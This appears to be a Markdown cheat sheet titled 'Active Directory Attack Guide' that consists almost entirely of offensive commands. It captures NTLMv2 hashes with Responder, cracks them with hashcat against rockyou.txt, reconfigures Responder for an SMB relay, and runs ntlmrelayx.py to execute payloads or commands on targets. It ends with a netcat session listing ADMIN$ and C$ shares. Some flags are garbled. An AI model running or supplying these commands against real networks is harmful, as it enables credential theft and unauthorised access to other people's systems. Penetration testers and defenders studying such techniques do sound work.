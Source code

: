 ## Active Directory Attack Guide.

#### Capture NTLMv2 Hashes
```
sudo responder -I eth0 - rdwv
```
#### Crack with Hashcat
```
hashcat -m 5600 hash rockyou.txt
```

#### Edit the Responder Config File for SMB Relay Attack
```
nano /etc/responder/responder.conf
```
```
; Servers to start
SQL = On
SMB = Off
RDP = On
Kerberos = On
FTP = On
POP = On
SMTP = On
IMAP = On
HTTP = Off
HTTPS = On
DNS = On
LDAP = On
DCERPC = On
WINRM = On
```

```
sudo responder -I eth0 - rdwv
```
```
ntlmrelayx.py -tf targets.txt -smb2support -i 
-i -- intercative
-e -- execute payload (test.exe)
-c -- run a command (whoami)
```

```
nc 127.0.0.1 11000
Type help for list of commands
# shares
ADMIN$
C$
IPC$
Share
```



